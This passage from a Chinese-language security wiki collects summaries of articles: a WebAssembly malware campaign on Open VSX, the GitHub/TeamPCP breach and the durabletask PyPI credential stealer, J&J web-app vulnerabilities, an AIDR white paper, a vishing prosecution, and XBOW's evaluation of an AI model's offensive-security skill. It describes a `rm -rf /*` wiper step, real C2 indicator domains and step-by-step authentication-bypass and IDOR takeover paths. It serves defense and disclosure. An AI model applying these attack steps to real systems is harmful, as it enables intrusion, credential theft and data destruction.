- **TinyGo → js/wasm**: 编译为 WebAssembly，由 JS 宿主执行
- **无自主 I/O**: 所有网络/进程操作通过 JS bridge，使纯 WASM 静态分析几乎无法发现网络指标
- **ChaCha20 字符串加密**: 运行时解密，绕过签名检测
- **工具链指纹**: TinyGo gojs bridge + asyncify scheduler 是独特的，可用于检测

这对安全工具提出了新挑战：传统的字符串扫描和网络指标提取对 WASM 载荷无效。

### 从 GlassWorm 到 GlassWASM 的演进

Socket 以中等信心将此攻击归因于 GlassWorm 开发者，但指出 WASM/TinyGo 作为 stager 的使用代表了**向二进制加载的混淆新转向**。这种演进模式——从已知技术到更深层混淆——是恶意软件开发的典型路径。

## 实践启示

1. **扩展来源验证**: 仅从官方 VS Code Marketplace 安装扩展，避免使用 Open VSX 等替代注册表（除非有额外验证）
2. **扩展活跃度检查**: 对长期未更新的扩展（如 2019/2020 年）保持警惕，特别是重新出现在不同注册表时
3. **WASM 安全审计**: 对包含 `.wasm` 文件的扩展进行额外审查——检查 import table 是否包含 `gojs.syscall/js.*` 等异常 bridge
4. **注册表安全**: Open VSX 等注册表需要加强 publisher verification 和新账户限制
5. **C2 检测**: 区块链 C2 的检测需要新的方法论——传统的域名/IP 封禁无效

## 相关实体

- [DeepMind AI Agent 安全](https://github.com/QianJinGuo/wiki/blob/main/entities/deepmind-securing-future-ai-agents.md) — Agent 生态安全框架
- [CVE 实践](https://github.com/QianJinGuo/wiki/blob/main/entities/getting-cve-without-shipping-slop.md) — 安全漏洞发现与披露
- [LLM 安全红队测试](https://github.com/QianJinGuo/wiki/blob/main/concepts/llm-security-red-teaming.md) — 软件供应链安全概念
- [Agent 安全威胁模型](https://github.com/QianJinGuo/wiki/blob/main/concepts/agent-security-threat-models.md) — Agent 安全概念框架

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/glasswasm-webassembly-malware-open-vsx.md)

---

## Ch12.069 ai detection and response aidr a zero impact operating model

> 📊 Level ⭐⭐ | 6.6KB | `entities/ai-detection-and-response-aidr-a-zero-impact-operating-model.md`

# ai detection and response aidr a zero impact operating model

Published Time: Thu, 14 May 2026 21:30:20 GMT
AI Detection and Response (AIDR)
AI has moved from experimentation to infrastructure. Attackers have followed, using the technology to accelerate attacks, automate credential abuse, and compress timelines. Prevention-focused security models weren't built for this. Once valid credentials or trusted integrations come into play, the outcome is determined by visibility, investigative fidelity, and response speed.
AI Detection and Response (AIDR) is the [operating model](https://www.mitiga.io/videos/the-three-pillars-of-aidr-mitiga-mic-with-ofer-maor) built for that reality, organized around three imperatives: defend with AI, defend your AI, and defend from AI. Mitiga's AI-native [Cloud Detection and Response platform](https://www.mitiga.io/platform)with [Helios AIDR](https://www.mitiga.io/helios-ai) puts this model into action across cloud, SaaS, identity, and AI, turning fragmented telemetry into clear attack narratives and moving from signal to Zero-Impact Breach Prevention.

### In This White Paper, You'll Learn:

- Why AIDR is now required
- Why existing security models break at real-time detection and response
- What AIDR is – and what it is not
- How Mitiga's Helios AIDR works

## 深度分析

AIDR 的核心命题是：在凭证或可信集成已被攻陷的情况下，防御的胜负手从预防转移到了可见性、调查保真度和响应速度。传统的"预防优先"安全模型假设边界可控、凭证不泄露，但在云和 SaaS 时代，凭证泄露和可信集成滥用已成常态而非异常。这不是某个厂商的话术，而是整个行业对原有安全假设被迫进行的重新校准。

AIDR 的三大支柱——用 AI 防御、防御你的 AI、从 AI 防御——覆盖了一个完整的攻防闭环。"用 AI 防御"解决的是攻击者也在用 AI 加速攻击的问题；"防御你的 AI"针对的是 AI 系统本身作为攻击面的风险（模型注入、数据投毒、 AI agent 越权）；"从 AI 防御"则处理 AI 被攻击者用于社会工程和自动化入侵的场景。三支柱并非简单并列，而是覆盖了 AI 时代攻击链的三个不同维度。

Mitiga 将云、 SaaS 、身份和 AI 遥测数据统一到单一取证系统的设计选择，反映了一个关键洞察：碎片化的遥测是调查失败的主要根因。当一次攻击跨越 AWS IAM 、 Microsoft 365 和 Salesforce 时，如果每个系统有独立的日志且互不关联，调查人员需要手动拼接时间线，而攻击者已在数分钟内完成横向移动。统一遥测的本质是将取证工作前置到日常运营中，而非留到事件响应时才临时拼凑。

" Zero-Impact Breach Prevention "（零影响 breach 防护）作为最终目标的表述值得玩味。这不是传统的"检测和响应"（ detect and respond ），而是将检测、调查和响应压缩为近乎实时的自动化闭环，在攻击产生实质影响前完成遏制和逆转。这要求调查和响应时间压缩 90% ，而传统的 SOC 流程在这种时间尺度下根本无法人工介入——这解释了为何 Mitiga 强调" AI 原生"而非在现有 SIEM 上叠加 AI 模块。

从市场定位看， AIDR 的出现填补了 MDR （托管检测与响应）和传统云安全态势管理（ CSPM ）之间的空白。CSPM 擅长 posture 评估但无法处理实时攻击； MDR 有人工分析师但依赖来自各个云的原始日志而非统一调查视图； AIDR 则在保持 AI 速度优势的同时将取证和响应能力整合为单一平台能力。

## 实践启示

1. **重新评估预防为中心的安全模型**：当有效凭证或可信集成被滥用时，边界已事实上失效。应将投资从"让攻击者进不来"转向"让攻击者进来后立即被发现并被驱逐"，这要求对遥测数据的可见性投入优先级不低于边界防御。

2. **建立 AI 安全作为独立安全域**：随着 AI agent 和 MCP 的普及， AI 系统本身正在成为新型攻击面（模型注入、数据投毒、AI 越权），须建立专门的 AI 安全评估流程，而非将 AI 安全问题合并到应用安全或云安全团队。

3. **统一遥测作为 SOC 现代化的基础设施**：碎片化的日志是调查失败的主要根因。在事件响应时拼凑跨云时间线已不现实，应将云、 SaaS 、身份和 AI 的遥测统一采集和存储作为优先建设目标，而非在每次重大事件后临时处理。

4. **以 90% 调查时间压缩为目标设计响应流程**： Mitiga 宣称的 90% 调查时间压缩背后需要 playbook 自动化和 AI 辅助取证，而非人工流程优化。团队应审视现有应急响应流程中哪些环节是纯人工的，这些环节在真正的实时攻击中必然成为瓶颈。

## 相关实体
- [Fedora Hummingbird Brings The Container Security Model To Li](https://github.com/QianJinGuo/wiki/blob/main/entities/fedora-hummingbird-brings-the-container-security-model-to-li.md)
- [Google Bigquery Threat Model](https://github.com/QianJinGuo/wiki/blob/main/entities/google-bigquery-threat-model.md)
- [Cybersecqwen 4B Why Defensive Cyber Needs Small Specialized Locally Runnable Mod](https://github.com/QianJinGuo/wiki/blob/main/entities/cybersecqwen-4b-why-defensive-cyber-needs-small-specialized-locally-runnable-mod.md)
- [Building Blocks For Foundation Model Training And Inference On Aws](https://github.com/QianJinGuo/wiki/blob/main/entities/building-blocks-for-foundation-model-training-and-inference-on-aws.md)
- [Netflix Metadata Service Model Lifecycle Graph](https://github.com/QianJinGuo/wiki/blob/main/entities/netflix-metadata-service-model-lifecycle-graph.md)
- [MOC](https://github.com/QianJinGuo/wiki/blob/main/moc/security-privacy-landscape.md)

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/ai-detection-and-response-aidr-a-zero-impact-operating-model.md)

---

## Ch12.070 GitHub Breached — Employee Device Hack Led to Exfiltration of 3,800+ Internal Repos

> 📊 Level ⭐⭐ | 6.4KB | `entities/github-investigating-teampcp-claimed-17cc77.md`

## 核心要点

Significant security incident reporting on GitHub breach via compromised VS Code extension. Details attack vector, scope (~3800 repos), and response actions. Important supply chain security awareness with practical incident response insights.

## 标签

security, agent, ai

## 深度分析

GitHub 事件的核心是一个经典但破坏力极大的攻击链：员工设备通过一个恶意的 Microsoft Visual Studio Code 扩展被入侵，攻击者借此获取了 GitHub 内部基础设施的访问权限，最终导致约 3800 个内部仓库（涵盖 GitHub Actions 工作流、Copilot 功能、CodeQL 工具、CI/CD 基础设施、安全工具乃至 Pull Request 控制器）被窃取。这本质上是一次供应链攻击的"二层"展开——攻击者并未直接攻入 GitHub 的内部系统，而是通过攻破一个有 GitHub 内部资源访问权限的个人开发者工作站实现的侧向渗透。VS Code 扩展的信任模型使这一路径尤为危险：扩展在 IDE 内部以用户权限运行，可访问所有工作区文件、环境变量、API token，乃至于 Git 仓库的提交历史和 CI/CD 配置。

攻击者的战术选择展现了对开发供应链的深刻理解。TeamPCP（又名 DarkWing）采用"不勒索，只出售"的模式——明确表示"这不是勒索，1个买家我们就销毁数据，找不到买家就免费泄露"，这种表态既规避了法律风险（不构成勒索罪），又制造了紧迫感以驱动买家快速决策。这种模式对高价值目标的威慑力远超传统勒索：GitHub 的内部代码和基础设施工具对竞争对手、国家级行为者或想在开源生态中植入后门的攻击者具有极高的战略价值。LAPSUS$ 的加入（将联合拍卖价格推至 95,000 美元）更表明顶级网络犯罪组织正在形成联盟，整合各自的情报源以最大化收益。

durabletask PyPI 包供应链攻击展示了 TeamPCP 的完整攻击能力。攻击者通过此前盗取的 GitHub 账户凭据访问了 PyPI 发布 token，直接发布了三个恶意版本（1.4.1、1.4.2、1.4.3）。这些版本在 `import` 时即自动执行恶意代码，无需任何用户交互。载荷包括一个针对多家云服务商凭证（AWS、HashiCorp Vault、1Password、Bitwarden）、SSH 密钥、Docker 凭证、VPN 配置和 shell 历史记录的全面凭证窃取器，并实现了通过 AWS SSM SendCommand 在 EC2 实例间传播以及通过 `kubectl exec` 在 Kubernetes 集群内横向移动的能力——这意味着任何安装过受影响 durabletask 版本的机器都应该被视为已被完全入侵。

FIRESCALE 技术（C2 地址隐藏在 GitHub 公开提交信息中）和针对性删除机制（检测以色列或伊朗系统设置后，1/6 概率执行 `rm -rf /*`）进一步揭示了攻击者的技术深度和明确的敌意目标设定。特别是"瞄准以色列/伊朗系统"这一特征，与 CL-UNK-1090 的以色列公司关联形成有趣呼应，可能指向同一或相关威胁行为者。FIRESCALE 的创新在于将 C2 通信伪装成正常的 GitHub commit activity，绕过了大量基于网络流量监控的安全工具——这是对开发平台本身作为攻击基础设施的典型利用。

这次事件对开发工具生态的警示是根本性的。大多数组织并不掌握开发者具体在 VS Code 中安装了哪些扩展，也不清楚这些扩展的权限范围。VS Code Marketplace 缺乏细粒度的权限审查机制，扩展可以请求访问网络、文件系统、环境变量乃至终端——这些权限组合起来等于一个持久化的高级后门。更关键的是，CI/CD 管道中的凭据（PyPI token、AWS credentials、Docker registry 密钥）通常以环境变量形式存在，一旦攻击者通过 IDE 扩展获得对开发者工作站的访问，这些凭据也就暴露了。durabletask 每月 417,000 次的下载量意味着任何机器在安装受影响版本的那一刻就已经被侵入。

## 实践启示

- **强制实施 VS Code 扩展的审批与审查流程**：禁止开发者随意安装非白名单扩展，建立扩展权限的强制声明和审批机制，优先选择最小权限原则的扩展替代品 
- **对所有开发相关 token 实施紧急轮换**：GitHub、Docker Hub、PyPI、npm、AWS 等所有开发者管道凭据均应立即轮换，启用短生命周期 token 和最小权限访问原则，防止单点入侵导致全链路失守
- **监控 PyPI/npm 等包管理平台的异常发布行为**：关注组织账号名下从未发布过的包突然出现新版本、发布频率异常、发布者信息变更等信号；将已知恶意域名（`check.git-service[.]com`、`t.m-kosche[.]com`）纳入网络层封锁 
- **为 durabletask 受害组织提供检测清单**：检查是否存在对 `check.git-service[.]com` 的出站 DNS 查询、EC2 实例上的异常 SSM SendCommand 调用（`aws ssm send-command`）、`rook.pyz` 文件落地和执行痕迹，以及 GitHub commit 中的 `FIRESCALE` 模式字符串 
- **建立开发环境的零信任架构**：开发者工作站应被视为高价值攻击目标，实施持续验证（mTLS/设备证书）、网络分段（开发环境与生产环境隔离）和端点检测响应（EDR）覆盖，特别关注WSL/Linux子系统中的异常进程行为 

## 相关实体
- [Thehackernews Com Github Breached Employee Device Hack Led To Exfilt](https://github.com/QianJinGuo/wiki/blob/main/entities/thehackernews-com-github-breached-employee-device-hack-led-to-exfilt.md)
- [Exiftool Compromise Mac 592994](https://github.com/QianJinGuo/wiki/blob/main/entities/exiftool-compromise-mac-592994.md)
- [Skill Issues Compromising Claude Code With Malicious Skills Agents Part 1](https://github.com/QianJinGuo/wiki/blob/main/entities/skill-issues-compromising-claude-code-with-malicious-skills-agents-part-1.md)
- [Tracking Tampered Chef Clusters Aef374](https://github.com/QianJinGuo/wiki/blob/main/entities/tracking-tampered-chef-clusters-aef374.md)
- [Grafana Github Token Breach Led To Codebase Download And Extortion Attempt 2](https://github.com/QianJinGuo/wiki/blob/main/entities/grafana-github-token-breach-led-to-codebase-download-and-extortion-attempt-2.md)

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/github-investigating-teampcp-claimed-17cc77.md)

---

## Ch12.071 Exploiting vulnerabilities in Johnson & Johnson web apps

> 📊 Level ⭐⭐ | 6.2KB | `entities/eaton-works-jnj-webapp-vulnerabilities.md`

# Exploiting vulnerabilities in Johnson & Johnson web apps

## 摘要

Eaton Works 安全研究员公开披露了强生（Johnson & Johnson）两个 Web 应用中的真实漏洞。 第一个是校园招聘系统，因后端使用硬编码 API 密钥而非 MSAL token 验证，导致近 1000 名学生信息泄露；第二个是内部审计跟踪管理系统（ATMS），被 20 家关联公司使用，通过 IDOR（不安全的直接对象引用）实现管理员接管。两个漏洞均于 2025 年 10 月报告给强生，但修复进展缓慢，直到 2026 年 6 月文章发布时仍在协调中。

## 核心要点

### 漏洞一：校园招聘系统 — MSAL 认证绕过

强生的校园招聘网站使用 Microsoft Authentication Library (MSAL) 进行前端认证，但 **后端从未验证 MSAL token**。后端 AWS API 实际使用硬编码 API 密钥进行身份验证。

**攻击路径**：
1. 修改前端 MSAL 代码，使其始终返回「已登录」状态
2. 直接访问招聘人员路由和后端 API
3. 后端使用硬编码密钥验证，完全忽略 MSAL token
4. 获取所有学生信息、面试评分和招聘人员笔记

**根本原因**：前端唯一认证（frontend-only authentication）— 后端不验证 token 有效性，静态 API 密钥无法区分用户身份。

### 漏洞二：内部审计系统 — IDOR 管理员接管

ATMS（Audit Tracking Management System）是强生及 20 家关联公司（包括 LifeScan、Ethicon、Janssen、Abiomed 等）使用的内部审计管理 Web 应用。

**攻击路径**：
1. 访问网站时立即重定向到 Microsoft SSO 登录页，但 ReactJS 应用已下载，暴露所有 API 端点
2. 调用 `getAllUsers` API，无需认证即返回 13,600 名强生员工数据 — 这证明所有 API 均无认证保护
3. 从帮助页面获取系统管理员的用户名和 WWID
4. 通过 MSAL 代码 patch 停止登录重定向，在 localStorage 中硬编码管理员凭据
5. 调用会话创建 API（GET 请求）获取有效 session GUID
6. 完成管理员接管，可切换 20 家公司的审计数据

**额外发现**：系统使用了幼稚的客户端加密方案来混淆某些秘密值，但这种安全性仅是表面文章。

## 深度分析

### 前端认证的系统性缺陷

两个漏洞的核心问题完全一致：**将认证职责委托给前端，后端不做独立验证**。这是企业 Web 应用中最常见也最危险的反模式之一。

MSAL 等前端认证库的作用仅限于 UI 层面的访问控制（隐藏/显示界面元素），它们不提供任何后端安全保障。当开发者将 MSAL 集成视为「完成了认证」时，实际上只是在客户端做了一个可被轻易绕过的门面。

```
[错误模式]
Browser → MSAL check (前端) → UI 渲染控制
Browser → API call → 后端（无 token 验证，使用静态密钥）

[正确模式]
Browser → MSAL check (前端) → UI 渲染控制
Browser → API call + Bearer token → 后端（独立验证 token 有效性、权限范围、用户身份）
```

### 企业安全中的 IDOR 持久性

IDOR 在 OWASP Top 10 中长期占据高位，但在 2026 年的企业应用中仍然普遍存在。ATMS 案例展示了 IDOR 的典型升级路径：

- **信息泄露**：`getAllUsers` 端点暴露全部员工数据
- **权限提升**：通过已知用户名和 WWID 伪造管理员身份
- **横向移动**：系统支持在 20 家公司间切换，无租户隔离

20 家公司共享同一系统而无服务端租户隔离，这违反了多租户架构的基本安全原则。

### 漏洞披露时间线的启示

两个漏洞于 2025 年 10 月报告给强生。作者指出，与 2024 年的报告经历（「stellar — immediate action」）相比，此次体验「less positive」。 这反映出大企业在漏洞响应流程中可能存在的退化：当安全团队扩大后，协调成本和内部优先级冲突可能拖慢修复进度。

## 安全工程启示

1. **前端认证 ≠ 认证**：MSAL 检查仅影响 UI 渲染，后端必须独立验证 token 的有效性、过期时间和权限范围
2. **硬编码 API 密钥 = 无认证**：静态密钥无法区分用户身份，应使用短期 token（如 OAuth2 Bearer token）并绑定用户上下文
3. **IDOR 仍是 #1 Web 漏洞**：在 2026 年的企业应用中仍然频发，说明安全开发生命周期（SDL）的执行力度不足
4. **多租户隔离必须在服务端强制执行**：20 家公司共享系统而无租户隔离，意味着任何一次认证绕过都是全量数据泄露
5. **客户端代码是公开代码**：React/JS 应用的所有代码均可被逆向工程，任何依赖客户端逻辑的安全机制都不可信
6. **安全审计应覆盖第三方依赖**：使用 MSAL 不等于安全，需要验证集成方式是否正确

## 实践启示

对于企业 Web 应用开发者：
- 在 API 网关层统一实施 token 验证，不依赖各服务自行验证
- 使用 零信任架构 原则，每个 API 调用都必须携带并验证认证凭证
- 实施自动化 IDOR 检测（如 Burp Suite 的 Autorize 插件）作为 CI/CD 流水线的一部分
- 对涉及多租户的系统，必须在数据库查询层强制 tenant_id 过滤

## 相关实体

- [Harness and post-training closing open-weight bug-finding gap](https://github.com/QianJinGuo/wiki/blob/main/entities/how-harnesses-and-post-training-close-the-open-weight-bug-finding-gap-20260606.md)
- Zero Trust Architecture

---

## Ch12.072 The IT and security field guide to AI adoption | Tines

> 📊 Level ⭐⭐ | 6.2KB | `entities/the-it-and-security-field-guide-to-ai-adoption-tines.md`

## 核心要点
- IT与安全团队的AI采纳实用指南
- 包含AI工具评估框架、生产就绪标准、供应商评估问题清单
- 人工介入最佳实践
- 案例：Udemy、Canva、Jamf、Vimeo
## 相关实体
- [How Harnesses And Post Training Close The Open Weight Bug Finding Gap 20260606](https://github.com/QianJinGuo/wiki/blob/main/entities/how-harnesses-and-post-training-close-the-open-weight-bug-finding-gap-20260606.md)
- [Schmoozing Is Dead Agents Are Hitting 120 Of Humans And Growth Is The Only Thing](https://github.com/QianJinGuo/wiki/blob/main/entities/schmoozing-is-dead-agents-are-hitting-120-of-humans-and-growth-is-the-only-thing.md)
- [Introducing Deepsec Find And Fix Vulnerabilities In Your Code Base](https://github.com/QianJinGuo/wiki/blob/main/entities/introducing-deepsec-find-and-fix-vulnerabilities-in-your-code-base.md)
- [Fedora Hummingbird Container Security](https://github.com/QianJinGuo/wiki/blob/main/entities/fedora-hummingbird-container-security.md)
- [Sysdig Headless Cloud Security](https://github.com/QianJinGuo/wiki/blob/main/entities/sysdig-headless-cloud-security.md)

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/the-it-and-security-field-guide-to-ai-adoption-tines.md)

## 问题背景
Security and IT teams are under pressure to adopt AI, but many are seeing the opposite of what was promised. Tools that demo well don't hold up in real workflows. Complexity increases. Trust breaks down. And instead of reducing workload, AI can introduce new risks and oversight burdens. This guide breaks down why AI adoption fails in practice and gives teams a clearer path forward, from evaluation to implementation, with humans in the loop.

## 深度分析
### AI工具评估的核心挑战
该指南指出了企业在AI采纳过程中面临的关键困境：概念验证（POC）与生产环境之间的巨大鸿沟。许多AI工具在demo环境中表现出色，但在实际生产中却难以维持相同的性能和可靠性。这种"演示-生产"差距源于多个因素：demo环境通常经过精心优化，而真实工作流充满边缘案例和异常情况；供应商在演示时会选择最有利的场景，而实际部署后则需要处理各种 corner case。

### 复杂度递增问题
当企业将AI工具集成到现有工作流时，往往会发现复杂度以非线性方式增长。每一个新增的AI组件都可能引入新的依赖关系、错误处理需求和监控要求。指南强调，IT和安全团队需要为这种复杂度增长做好准备，而不是天真地认为AI会简化操作流程。实际案例表明，在没有充分规划的情况下引入AI，反而会导致运营负担增加，而非减轻。

### 信任崩塌风险
AI系统在生产环境中表现不稳定或产生意外输出时，会迅速侵蚀团队对系统的信任。一旦信任崩塌，重新建立信心将非常困难。指南建议，在部署初期就应该设定明确的性能基准和退出策略，当系统无法满足预期时能够及时回滚而不是勉强维持。这种风险管理方法有助于保护团队对AI工具的整体信心。

### 风险与监督负担
与"AI将减少工作量"的预期相反，许多组织发现AI引入了新的风险管理和监督需求。当AI系统做出错误决策时，需要人工干预和纠正；当AI处理敏感数据时，需要额外的安全控制；当AI建议可能导致重大影响时，需要额外的审批流程。这些额外负担如果没有被提前识别和规划，将抵消AI带来的效率提升。

## 实践启示
### 1. 建立超越Demo的评估框架
指南提供了一个实用的工具评估框架，帮助团队在POC阶段之后就对AI工具进行全面的可行性评估。这个框架不仅考虑工具的技术能力，还包括供应商支持能力、长期维护成本、合规性影响等多个维度。建议在评估阶段就让实际终端用户参与，以便发现demo中不易暴露的问题。

### 2. 生产就绪标准检查清单
指南包含一份详细的生产就绪标准清单，涵盖性能基准、监控告警、错误处理、数据隔离、审计追踪等关键领域。在将任何AI工具部署到生产环境之前，团队应该逐项验证这些标准是否满足。这份清单的价值在于它将AI特定的考量与传统软件部署的最佳实践相结合，为IT和安全团队提供了实用的验收标准。

### 3. 供应商评估关键问题
在选择AI工具供应商时，指南建议提出一系列尖锐的问题，包括：供应商如何处理模型更新导致的性能波动？当系统产生错误输出时供应商的支持响应时间是多少？供应商是否提供完整的数据处理协议和合规证明？这些问题有助于揭示供应商的真实能力和潜在风险，避免在签署合同后才发现问题。

### 4. 人工介入最佳实践
Human-in-the-loop（人工介入）是确保AI系统安全性和可靠性的关键原则。指南详细阐述了如何在不同的自动化场景中合理分配人工和机器的职责：对于高风险决策保留人工审批；对于低风险但高频的操作可以完全自动化；对于边界情况建立清晰的处理流程。关键是在效率和安全性之间找到平衡点。

### 5. 真实企业案例参考
指南汇集了多家企业的AI采纳案例，包括Udemy、Canva、Jamf和Vimeo。这些案例涵盖了不同规模和行业的企业，展示了AI在降低工作负载和提高一致性方面的实际效果。通过这些真实案例，读者可以了解AI在不同环境下的实际表现，以及企业在采纳过程中遇到的共同挑战和解决方案。
→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/the-it-and-security-field-guide-to-ai-adoption-tines.md)

---

## Ch12.073 Romanian Man Faces Up to 30 Years in US Prison Over Vishing Scams

> 📊 Level ⭐⭐ | 6.2KB | `entities/romanian-man-30-years-us-prison-vishing.md`

# Romanian Man Faces Up to 30 Years in US Prison Over Vishing Scams

## 摘要

53 岁的罗马尼亚籍男子 Gavril Sandu 于 2026 年 4 月 30 日被引渡至美国北卡罗来纳州夏洛特联邦法院，面临共谋罪和银行欺诈罪指控。该案涉及一个始于 2009 年的 VOIP vishing 犯罪团伙，该团伙劫持合法企业的 VOIP 电话系统，通过自动化脚本批量外呼，诱骗受害者泄露借记卡信息和 PIN 码，随后制作伪卡在 ATM 提现。该案于 2017 年 11 月由大陪审团起诉，Sandu 在罗马尼亚潜逃多年后于 2026 年 1 月被捕。

## 核心要点

### 1. 犯罪链条的完整解构

该案展示了从数字入侵到物理变现的完整犯罪链条：

**阶段一：VOIP 系统劫持（2009 年起）**
- 目标：小型企业的 Voice over Internet Protocol 电话系统
- 手段：未经授权访问互联网电话服务器
- 利用：VOIP 技术允许通过宽带互联网拨打电话，入侵后攻击者获得合法企业的来电显示信誉

**阶段二：自动化语音钓鱼（Vishing）**
- 部署计算机脚本自动外呼
- 来电显示为被劫持的合法企业号码，增加可信度
- 诱骗受害者透露借记卡号码和 PIN 码

**阶段三：伪卡制作与 ATM 提现**
- Sandu 担任 money mule（钱骡）角色
- 将被盗卡号制作成带磁条的物理伪卡
- 在多个 ATM 提现，保留部分赃款，其余汇回给黑客团伙

### 2. Vishing 攻击的技术特征

- **信任利用**：劫持合法企业 VOIP 账户，使来电显示看起来可信——这是社会工程学在电信领域的典型应用
- **自动化规模**：使用脚本自动外呼，实现大规模定向攻击，单次攻击成本极低
- **跨平台融合**：结合了网络安全入侵（VOIP 劫持）、社会工程学（语音欺骗）和物理犯罪（伪卡 ATM 提现）

### 3. 跨境执法的漫长历程

- **2009-2010 年**：犯罪活动期间
- **2017 年 11 月**：大陪审团正式起诉
- **2026 年 1 月**：Sandu 在罗马尼亚被逮捕
- **2026 年 4 月 30 日**：引渡至美国

从起诉到引渡历时 8 年以上，充分暴露了网络犯罪与物理司法管辖权之间的错位。FBI 特别探员 Reid Davis 表示"正义无时限"（justice has no timeline），美国检察官 Ferguson 强调"无论骗子在哪里操作——国内还是国外——我们将使用一切可用工具将其绳之以法"。

### 4. 法律后果

- **罪名**：共谋罪和银行欺诈罪
- **最高刑期**：30 年联邦监狱
- **当前状态**：联邦拘留中
- **起诉依据**：美国司法部（DOJ）西区北卡罗来纳联邦检察官办公室

## 深度分析

### VOIP 安全漏洞的系统性问题

此案揭示了 VOIP 系统的安全薄弱环节。许多小型企业的 VOIP 系统缺乏基本安全措施（双因素认证、呼叫路由审计、异常呼叫模式监控），一旦被入侵，攻击者即可滥用其信誉资产进行大规模欺诈。这不是个案问题，而是系统性的安全债务。

### Money Mule 在网络犯罪中的角色

Sandu 在犯罪链条中担任 money mule——负责将数字盗窃转化为物理现金。这是网络犯罪变现的关键环节，也是执法打击的重点。Money mule 通常：
- 在犯罪团伙中处于较低层级，但承担最高物理风险
- 负责实体操作（伪卡制作、ATM 提现、资金转移）
- 容易被追踪（ATM 监控、银行记录）

### 与 AI 时代 Vishing 的对比

传统 vishing 依赖人工脚本和简单自动化。随着 AI Agent 和语音合成技术的发展，vishing 攻击正在升级：
- **深度伪造语音**：可以模仿特定人物的声音
- **AI 驱动的对话**：可以实时应对受害者的质疑
- **大规模个性化**：根据受害者信息定制话术

此案的犯罪模式（2009-2010 年）是传统 vishing 的典型案例，但其核心逻辑——利用信任和自动化——在 AI 时代将被放大。

## 实践启示

1. **企业 VOIP 安全**：对 VOIP 系统启用双因素认证、定期审计呼叫路由规则、监控异常呼叫模式（如非工作时间批量外呼）
2. **个人防护意识**：即使来电显示为可信机构，也不应在电话中透露敏感财务信息——银行不会主动索要 PIN 码
3. **金融机构风控**：部署实时欺诈检测系统，识别短时间内多张不同银行卡的 ATM 提现行为
4. **国际司法合作**：跨境网络犯罪的执法效率仍需提升，各国应加快签署并执行针对网络犯罪的快速引渡协议
5. **AI 时代的新威胁**：随着语音合成和 AI 对话技术的进步，vishing 攻击将变得更加逼真和难以识别

## 相关实体

- [Npm Supply Chain Compromise Postmortem](https://github.com/QianJinGuo/wiki/blob/main/entities/npm-supply-chain-compromise-postmortem.md)
- [Cloudflare Glasswing Mythos Security](https://github.com/QianJinGuo/wiki/blob/main/entities/cloudflare-glasswing-mythos-security.md)
- [Funnel Builder Flaw Woocommerce Checkout Skimm](https://github.com/QianJinGuo/wiki/blob/main/entities/funnel-builder-flaw-woocommerce-checkout-skimm.md)
- [Ath Agent Trust Handshake Protocol](https://github.com/QianJinGuo/wiki/blob/main/entities/ath-agent-trust-handshake-protocol.md)
- [Checkmarx Jenkins Plugin Compromised In New Supply Chain Attack](https://github.com/QianJinGuo/wiki/blob/main/entities/checkmarx-jenkins-plugin-compromised-in-new-supply-chain-attack.md)

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/romanian-man-30-years-us-prison-vishing.md)

---

## Ch12.074 Mythos for Offensive Security: XBOW's Evaluation

> 📊 Level ⭐⭐ | 6.0KB | `entities/mythos-for-offensive-security-xbows-evaluation.md`

## 深度分析
**Mythos Preview 的核心定位**：Anthropic 委托 XBOW 对其新模型进行独立安全评估，这是继 Opus 4.7 和 GPT 5.5 之后 XBOW 第三次系统性评估前沿模型。Mythos Preview 被定位为"重大能力飞跃"，尤其在源代码漏洞发现领域。
**评测方法论亮点**：XBOW 组建了 10 人跨领域专家团队，采用"冻结漏洞版本 + 自动化 agent 对抗"的标准基准测试框架。与以往不同，本次额外考察了威胁建模判断力、源代码 vs  live-site 交互能力差异、以及原生应用漏洞发现等新维度。值得注意的是，评测区分了"裸模型 API"和"Claude Code 内嵌"两种使用形态，因为编排层、工具链和实时访问会实质性影响结果。
**漏洞发现的核心数据**：相比 Opus 4.6，Mythos Preview 的漏报率下降 42%，提供源代码时进一步下降至 55%。token-for-token 精度上，其定位漏洞的效率达到"前所未有"的水平。这验证了一个反复出现的主题：**Mythos 擅长写代码，但更擅长读代码**。
**live-site vs 源代码的悖论**：一个反直觉的发现——即使在被设计为"仅靠代码即可发现漏洞"的基准集上，剥夺 live-site 访问对性能的损害仍大于剥夺源代码访问。这说明**实战渗透测试中，实时交互的价值高于代码审计**，即便漏洞根因在代码中。Mythos Preview 在失去 live-site 时"受伤"幅度小于其他模型，这正是其源码分析能力强的表现；但最优结果始终来自"源码分析找线索 → live-site 探测部署反映 → 构造 exploit"的组合模式。
**判断力（Judgment）的局限性**：Mythos Preview 在命令安全、威胁建模、trace 分类等判断任务中表现"mixed"。它过于字面化和保守——有时会丢失证据未严格满足其形式标准的真正漏洞（即优先保 spirit 而非 letter）。最令人意外的是：Haiku 4.5 在命令安全基准上达 90.1%、Opus 4.6 达 81.2%，而 Mythos Preview 仅 77.8%。这说明**强大漏洞发现能力并不自动等同于强大安全判断力**，Mythos 需要精确提示词、显式威胁模型和验证基础设施才能将强推理转化为可靠安全成果。
**原生代码与逆向工程的优势**：这是 Mythos 表现最 striking 的领域之一。在 Chromium 测试中找到更多真实漏洞且误报率更低；在 V8 sandbox 微妙威胁模型中识别出此前方法无法找到的真正漏洞（该场景之前的方法产生了大量发现但无一成功）；在固件和嵌入式系统逆向中展现了超越模式匹配的结构化推理能力。
**成本效益的现实评估**：Mythos Preview 定价将为 Opus 的 5 倍，且在成本归一化后的效率基准上并非同类最佳。Point Estimate 对比 AI Security Institute 数据的分析也得出了类似结论：选择取决于场景——高频漏洞发现值得为其付费，但在许多场景下让 GPT-5.5 多次尝试是更经济的方案。XBOW 的策略是**维持多模型组合**，而非押注单一模型。
**核心结论提炼**：Mythos Preview 是一个"无躯壳的大脑"——在源代码审计这类大脑活动中极为强大，但真正的渗透测试需要与之匹配的"身体"（工具链、实时访问、验证基础设施）。它代表了漏洞发现能力的重大飞跃，但必须被正确驾驭才能发挥全部潜力。

## 实践启示
